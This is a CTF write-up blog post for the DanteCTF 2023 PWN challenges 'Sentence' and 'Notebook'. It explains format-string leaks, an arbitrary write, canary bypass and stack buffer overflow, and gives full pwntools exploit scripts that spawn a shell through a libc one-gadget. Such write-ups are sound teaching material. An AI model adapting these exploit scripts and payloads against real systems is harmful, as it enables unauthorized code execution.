






+++
title = "DanteCTF 2023 8th place"
tags = ["PWN", "writeup"]
description = "Writeups for Sentence and Notebook challenges"
date = "June 5nd 2023"
author = "GoldenBoy"
labels = ["introduction","sentence","notebook","conclusion"]
cover = "scoreboard.png"
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++
# Introduction

My team DeadSec placed 8th in the competition!

I didn't have a whole lot of time to play this weekend, but I did do some of the PWN challenges in the time that I had.

The Challenges I completed were Sentence and Notebook

Overall, I thought the challenges were interesting, definitely a good refresher on some of the basics. I really liked sentence in particular. 

I wish I had more time to checkout Infernal break as it seemed really challenging!

# Sentence
In this challenge you are given a printf vulnerability to leak some values, and then can write a chosen 8 byte value any where in memory! A nice Write What Where(WWW) challenge.

### Vulnerable Code Segment

This little snippet of code contains the whole problem! printf is called with a user controlled parameter as it's argument, this allows me to leak values from the stack using %p. 

The next part reads two unsigned longs, the first `payload` being written to memory at `destination`. To understand how this works, I thought that looking at the assembly made it a bit easier



load both our values into rax and rdx, then write the value stored in rax to the address pointed to by rdx.

## My Solution
My solution was a bit convoluted. I could have done it in one go just by writing the one gadget to the return address. However I though that I may need multiple runs to store the correct values in registers, so I started by leaking the codebase and restarting main. 

In each case of triggering the vulnerability I need two leaks. First is a leak to the stack, so I can overwrite the return pointer. Second is a pointer to the section of memory I would like to write to. This is for calculating the offset I would like to return to.  For example, if I want to restart main, I need a pointer to the code base. 

### solve.py
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("sentence_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-linux-x86-64.so.2")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("challs.dantectf.it", 31531)

    return r

r = conn()

sla = lambda a,b : r.sendlineafter(f'{a}', f'{b}')
ru = lambda a : r.recvuntil(f'{a}')

def main():
    format_string_payload = "%1$p %13$p" #stack and codebase
    format_string_payload_2 = "%1$p %11$p" #stack and libc
    one_gadget = 0x50a37

    sla(":", format_string_payload)

    ru("Hi, ")
    leaks = r.recvline().split(b' ')[:2]
    leak1 = int(leaks[0][2:].decode('utf-8'),16)
    leak2 = int(leaks[1][2:].decode('utf-8'),16)
    print(hex(leak1))
    print(hex(leak2))
    overwrite_offset = leak1 + 0x2148

    print(hex(libc.address))
    print(hex(overwrite_offset))
    
    r.sendline(f'{str(leak2-0xE9)}')
    r.sendline(f'{str(overwrite_offset)}')
    # good luck pwning :)

    sla(":", format_string_payload_2)

    ru("Hi, ")
    leaks = r.recvline().split(b' ')[:2]
    leak1 = int(leaks[0][2:].decode('utf-8'),16)
    leak2 = int(leaks[1][2:].decode('utf-8'),16)
    print(hex(leak1))
    print(hex(leak2))
    libc.address = leak2 - 0x29D90
    overwrite_offset = leak1 + 0x2148
    r.sendline(f'{str(libc.address + one_gadget)}')
    r.sendline(f'{str(overwrite_offset)}')

    r.interactive()


if __name__ == "__main__":
    main()
```

### One Gadget
I used to following one gadget for spawning the shell
```
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL
```
It works because rbp is NULL when we call the return function!

This gives us an easy solve and the flag.

Once again, restarting is really unnecessary. 

# Notebook
Notebook followed an extremely similar pattern to Sentence, so I will keep it breif.

The challenge is a classic pwnable challenge, given a structure and ways to allocate, delete, view and edit it, pwn the program. At first since data is dynamically allocated, I thought that maybe it was a heap based challenge, but upon inspection I saw that we are only allowed 4 inputs. as seen in the main section of the program



with only 4 inputs available, a heap based vulnerability is very unlikely


This section that handles freeing the objects also confirms this, as the pointer is being properly cleared from memory

The vulnerability once again lies in how data is displayed to the user

## Abusing Dates
Through a mix of adding and viewing a soul, we are able to leak values from the stack in a similar way to sentence.

from View


as you can see here, the date section of the soul is displayed using printf. Once again, any user controlled arg of printf is a great place to start looking for a vulnerability

Now, let's look at how a date is added to a soul

There are two checks for creating a date, the first is that it should be only 11 characters long. If this is true, the second check doesn't matter. The second check makes sure that the first 11 chars match the following format. NN/CCC/NNNN see table below for an example

| Letter | Meaning |
| ------ | --------- |
| N | number |
| C | alphabet charecter |
| / | / |

## Leaking Values
Since the only check we need to pass is the length check it is quite easy to leak values. just send a payload of 11 characters. This way we can send a format string too leak some values off the stack

I used the following payload `%9$pO%15$pP`
The O and P are just to pad, and make parsing leaks from the output easier.
Since I want to Buffer overflow in the next section, I leaked the canary `%9$P`, and a pointer to libc `%15$p`


### Buffer Overflow
If you look above to the section where a date is read in, it reads a total of 0x60 characters from stdin. The buffer is only size 0x20, resulting in a buffer overflow. 

To pass the date check, just make sure the first 11 characters match the format, and then send the rest of the payload. I used 11/Nov/1111 to match the date. 

After this, I used the same One Gadget as I used above to spawn a shell.

### solve.py

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("notebook_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("challs.dantectf.it", 31530)

    return r


r = conn()
sla = lambda a,b : r.sendlineafter(f'{a}', f'{b}')
ru = lambda a : r.recvuntil(f'{a}')


def create(index, payload):
    sla(">", 1)
    sla(":", index)
    sla(":", "chef")
    sla(":", 1)
    r.sendlineafter(":", payload)

def view(index):
    sla(">", 4)
    sla(":", index)


def main():
    global r
    one_gadget = 0x50a37 

    create(1, f"%9$pO%15$pP")
    view(1)
    ru("date: ")
    canary = int(r.recvuntil("O", drop=True)[2:], 16)
    leak = int(r.recvuntil("P", drop=True)[2:], 16)
    libc.address = leak - 0x29D90
    log.info(f"canary @ {hex(canary)}")
    log.info(f"libc leak @ {hex(leak)}")
    log.info(f"libc base @ {hex(libc.address)}")


    payload =  b"11/Nov/1111"+p64(0)+b'A'*13
    payload += p64(0)
    payload += p64(canary) #canary at offset 0x28
    payload += p64(0)
    payload += p64(libc.address + one_gadget) #RIP at offset 0x38

    create(2, payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

# Conclusion
Thank you to the authors for the challenges, I really enjoyed sentence in particular. 

I'm a bit sad I didn't have time to try Infernal break, because It seems like it was very difficult!

Looking forward to next year!
